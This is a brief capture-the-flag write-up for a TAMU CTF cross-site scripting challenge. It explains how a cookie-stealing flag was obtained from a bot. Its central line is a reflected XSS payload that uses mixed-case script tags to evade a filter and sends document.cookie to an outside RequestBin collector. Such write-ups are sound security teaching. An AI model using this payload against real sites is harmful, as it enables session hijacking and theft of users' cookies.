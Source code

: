 ## input
xss3.ctf.tamu.edu  
The filtering is perfect this time, really! You know the drill; the client's cookie contains your flag.  

## output
As the previous challenge __Secret Cross-site Cookies__, we create a RequestBin to listen on the web and we put the XSS payload on the URL to check that the XSS is working for us:  
`xss3.ctf.tamu.edu/web/search_query.php?query=><scRiPt>document.write('<IMG SRC=\"http://requestb.in/1464vht1?cookie='%2bdocument.cookie);</sCripT>`

It's working for us so it has to work for the bot:
![URL](images/SUPER_Secret_Cross-Site_Cookies_URL_creation.png)

And effectively:
![flag](images/SUPER_Secret_Cross-Site_Cookies_URL_flag.png)
